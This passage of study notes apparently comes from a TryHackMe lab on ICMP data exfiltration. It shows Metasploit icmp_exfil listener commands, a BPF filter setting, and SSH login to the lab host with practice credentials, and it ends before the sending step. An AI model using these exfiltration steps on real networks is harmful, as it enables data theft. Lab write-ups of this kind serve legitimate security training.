 - Once it is received, it `writes to the disk` until it gets an "`End of File`" (**EOF**) trigger value.

<u>Pre-requisites</u>:
- The following diagram shows the required steps for the **Metasploit framework**.
- Since we need the Metasploit framework for this technique, then we need the AttackBox machine to perform this attack successfully:
![](/assets/img/Pasted image 20230109231539.png)

##### 1. Setup Metasploit by selecting the `icmp_exfil` module to prepare it to capture and listen for ICMP traffic.

<u>Requirements</u>:
- Setting the `BPF_FILTER` options which is based on **TCPDUMP** rules.

		- With this rule, it ONLY capture ICMMP packets and ignore ICMP packets that have the source IP of the attacking machine:

`msf5 > use auxiliary/server/icmp_exfil`

<u>Command Format</u>:
`msf5 auxiliary(server/icmp_exfil) > set BPF_FILTER icmp and not src <AttackBox-ip>`

`msf5 auxiliary(server/icmp_exfil) > set BPF_FILTER icmp and not src 10.10.178.55`

![](/assets/img/Pasted image 20230109232240.png)

- Current state:
![](/assets/img/Pasted image 20230109232318.png)

##### 2. Selecting which network interface to listen to :`eth0` and then run the exploit:
`msf5 auxiliary(server/icmp_exfil) > set INTERFACE eth0`
`msf5 auxiliary(server/icmp_exfil) > exploit`

![](/assets/img/Pasted image 20230109232520.png)

- **Note**: they prepared `icmp.thm.com` as a victim machine to complete the ICMP task with the required tools.

		- Question: What other things do I have to know about the `icmp.thm.com` website/domain in order to execute this attack well? Are there specific things that is set up in that URL that acts like a pre-requisite to this exfiltration technique?

##### 3. From the `JumpBox`, log in to the `icmp.thm.com` using `thm:tryhackme` credentials with `ssh`.

- In the `JumpBox` VM (the intermediary machine between two networks that we compromised), we have preinstalled `nping` tool, which is used for:

		- Network packet generation
		- Response analysis
		- Response time measurement
		- This is part of the NMAP suite tools.
